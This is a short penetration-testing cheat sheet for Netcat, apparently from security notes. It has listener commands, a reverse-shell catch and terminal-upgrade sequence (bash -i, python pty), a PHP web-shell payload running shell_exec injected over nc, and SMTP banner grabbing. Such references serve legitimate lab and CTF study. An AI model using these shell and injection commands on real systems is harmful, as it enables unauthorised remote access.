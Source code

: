 ```yaml
---
title: Netcat
desc: Manages network connections. Also known as 'nc'.
tags: [ActiveRecon, Linux, PrivEsc, ReverseShell, SMTP, Web]
alts: [Ncat, Telnet]
website:
render_with_liquid: false
---
```


## HTTP request

```sh
echo -en "GET / HTTP/1.1\nhost: netcat\n\n" | nc 10.10.44.191 80
```

<br />

## Listen

```sh
# HTTP
nc -lvnp 80

# HTTPS
nc -lvnp 443
```

<br />

## Listen (background)

```sh
# Add '&'
nc -lvnp 4444 &
```

<br />

## Listen for Reverse Shell

```sh
nc -lvnp 4444

# ---- Activate -------------------------

# Interactive shell
/bin/bash -i

# Upgrade to fully functional terminal
$ SHELL=/bin/bash script -q /dev/null
# or
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<br />

## PHP Shell

```sh
nc <target-ip> 80
<?php echo shell_exec('whoami') ?>
```

<br />

## SMTP Banner Grabbing

```sh
nc -vn <target-ip> 25
```